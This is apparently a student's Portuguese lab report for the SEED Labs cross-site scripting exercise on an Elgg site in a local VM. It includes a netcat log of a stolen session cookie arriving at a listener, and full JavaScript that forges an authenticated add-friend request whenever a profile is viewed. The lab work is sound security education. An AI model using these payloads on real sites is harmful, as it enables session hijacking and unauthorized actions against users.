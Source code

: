 # Trabalho realizado na Semana #10

## **Seed Labs**

## Tarefa 1

Colocando o seguinte script javascript na brief description fazemos com que quem visite o nosso perfil receba um alert.
![alert](alert_script.png)
![alert](alert.png)



## Tarefa 2


Colocando o seguinte script javascript na brief description fazemos com que quem visite o nosso perfil receba um alert com as suas cookies.

![cookie](cookie_script.png).png)
![cookie](cookie.png)


## Tarefa 3



Colocando o seguinte script javascript na brief description fazemos com que quem visite o nosso perfil envie as suas cookies para o endereço à nossa escolha.
![alert](send_cookie.png).png)

```

[01/04/22]seed@VM:~/.../Labsetup$ nc -lknv 10.9.0.1 5555
Listening on 10.9.0.1 5555
Connection received on 10.0.2.4 57828
GET /?c=Elgg%3Dpu2btvuk5tn4qja8rmlpu2n7es HTTP/1.1
Host: 10.9.0.1:5555
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:93.0) Gecko/20100101 Firefox/93.0
Accept: image/avif,image/webp,*/*
Accept-Language: pt-PT,pt;q=0.8,en;q=0.5,en-US;q=0.3
Accept-Encoding: gzip, deflate
Connection: keep-alive
Referer: http://www.seed-server.com/

```


## Tarefa 4

Quando alguém adiciona o Sammy aos amigos é gerado o seguinte request URL:

```
http://www.seed-server.com/action/friends/add?friend=59&__elgg_ts=1641298313&__elgg_token=EngTeTi2UKXmCwYNdnKckQ&__elgg_ts=1641298313&__elgg_token=EngTeTi2UKXmCwYNdnKckQ
```

Pelo que o nosso objetivo será gerar esse mesmo request sempre que alguém entrar no perfil de Samy. Conseguimos isso utilizando o seguinte script que é colocado em "About Me" em modo texto:

```js
<script type="text/javascript">
window.onload = function () {
    var Ajax=null;
    var ts="&__elgg_ts="+elgg.security.token.__elgg_ts;
    var token="&__elgg_token="+elgg.security.token.__elgg_token;
    //Construct the HTTP request to add Samy as a friend.
    var sendurl="http://www.seed-server.com/action/friends/add?friend=59"+ts+token+ts+token; //FILL IN
    //Create and send Ajax request to add friend
    Ajax=new XMLHttpRequest();
    Ajax.open("GET", sendurl, true);
    Ajax.send();
}
</script>
```

Quando um utilizador visita o perfil de Samy, é gerado o request para adicioná-lo aos amigos. O botão "Add friend" continua a aparecer, mas ao dar refresh este muda para "Remove friend".


![before](before.png)


![after](after.png)

Utilizando o HTTP Header Live podemos confirmar que o request está a ser gerado quando um utilizador entra no perfil de Samy, como pretendido.

![req](request.png)